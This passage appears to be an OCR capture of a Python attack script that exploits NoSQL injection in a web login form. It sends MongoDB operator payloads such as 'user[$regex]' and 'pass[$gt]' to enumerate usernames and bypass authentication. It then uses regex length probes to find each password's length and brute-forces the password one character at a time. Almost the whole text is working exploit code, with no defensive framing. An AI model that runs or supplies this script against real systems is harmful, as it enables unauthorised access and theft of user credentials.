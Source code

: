 ```python
# Add usernames from users
for user in users:
	patterns.append(user)

# Add usernames from wordlist
#with open('usernames.txt') as f:
#    patterns += f.read().splitlines()

# Generate patterns for bruteforce
num = list(range(1000))
patterns += [str(x) for x in num]
patterns += [''.join(i) for i in product(ascii_lowercase, repeat = int(repeatchar))]
 
for pattern in patterns:
	# check if regex pattern matches a user "user[$regex]=pattern&pass[$gt]="
	req = {'user[$regex]':pattern, 'pass[$gt]':""}
	res = requests.post(url,data=req).content
		
	# if not logged, try next pattern
	if res.find(b'Administration') == -1:
		elapsed = timeit.default_timer() - start_time
		m, s = divmod(elapsed, 60)
		h, m = divmod(m, 60)
		os.system('clear')
		view()
		print "\nNo matching user for pattern : " + str(pattern)
		continue

	# if pattern matches a user then check password size
	size = 0
	while 1:
		# "user[$regex]=pattern&pass[$regex]=.{0}" ==> "user[$regex]=pattern&pass[$regex]=.{5}" 
		payload = ".{" + str(size) + "}"
		req = {'user[$regex]':pattern, 'pass[$regex]':payload}
		res = requests.post(url,data=req).content
		
		# Until logged, increment size otherwise password is size -1
		if res.find(b'Administration') == -1:
			break
		size += 1
	size -= 1
	#print "[+] The password is " + str(size) + " characters long !"


	# retrieve password
	passwd = ""
	char = 48
	length = 0

	while 1:
		# "user[$regex]=pattern&pass[$regex]=a.{5}" ==> "user[$regex]=pattern&pass[$regex]=admin.{0}" 
		pass_payload = passwd + str(chr(char)) + '.{' + str(size - len(passwd) -1) + '}'
		req = {'user[$regex]':pattern, 'pass[$regex]':pass_payload}
		res = requests.post(url, data=req).content
		
		os.system('clear')
		view()
		print "\nMatching user for pattern : " + str(pattern)
		print "Password : %s" % (pass_payload)
		
		if res.find(b'Administration') != -1:	# if logged, add char to passwd
			passwd += str(chr(char))
```
